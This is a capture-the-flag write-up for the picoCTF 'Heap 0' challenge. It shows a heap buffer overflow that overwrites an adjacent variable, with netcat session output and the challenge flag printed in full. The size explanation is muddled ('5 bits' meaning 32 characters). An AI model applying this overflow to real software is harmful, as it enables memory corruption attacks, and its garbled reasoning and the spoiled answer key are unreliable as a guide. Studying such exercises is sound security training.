 # Heap 0
This challenge asks us to overflow the heap to next memory address

## Files Provided
[Binary File](https://artifacts.picoctf.net/c_tethys/28/chall)

[Source File](https://artifacts.picoctf.net/c_tethys/28/chall.c)

## Hints Given
Hint 1: What part of the heap do you have control over and how far is it from the safe_var?

## Procedure
1. I open the source code of the system on the browser and find that it shows us the flag when the `save_var` is not equal to `bico`

![image](https://github.com/user-attachments/assets/15269c2b-751a-4299-9f8c-3d6df5fac7c6)

2. I also found that the maximum size of the `input_var` is `5 bits` meaning `32 characters`

![image](https://github.com/user-attachments/assets/ed533354-77fc-4e4d-bd00-b9512ba20021)

3. So i overflowed the `input_var` with `36 characters` which led the `save_var` to be become `pico` which is not equal to `bico`

```bash
CheatingMM-picoctf@webshell:~$ nc tethys.picoctf.net 53432

Welcome to heap0!
I put my data on the heap so it should be safe from any tampering.
Since my data isn't on the stack I'll even let you write whatever info you want to the heap, I already took care of using malloc for you.

Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data   
+-------------+----------------+
[*]   0x598df2e0b2b0  ->   pico
+-------------+----------------+
[*]   0x598df2e0b2d0  ->   bico
+-------------+----------------+

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 2
Data for buffer: kbkjbhtdyfhtysdtheydfpicodfthwepico

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 1
Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data   
+-------------+----------------+
[*]   0x598df2e0b2b0  ->   kbkjbhtdyfhtysdtheydfpicodfthwepico
+-------------+----------------+
[*]   0x598df2e0b2d0  ->   ico
+-------------+----------------+

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 2       
Data for buffer: enfwfnfkewfenfowfythyduisghtugitpico

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 1
Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data   
+-------------+----------------+
[*]   0x598df2e0b2b0  ->   enfwfnfkewfenfowfythyduisghtugitpico
+-------------+----------------+
[*]   0x598df2e0b2d0  ->   pico
+-------------+----------------+
```

4. Printing the flag got me the flag
```bash
1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 4

YOU WIN
picoCTF{my_first_heap_overflow_76775c7c}
^C
CheatingMM-picoctf@webshell:~$
```

## Flag Provided
`picoCTF{my_first_heap_overflow_76775c7c}`
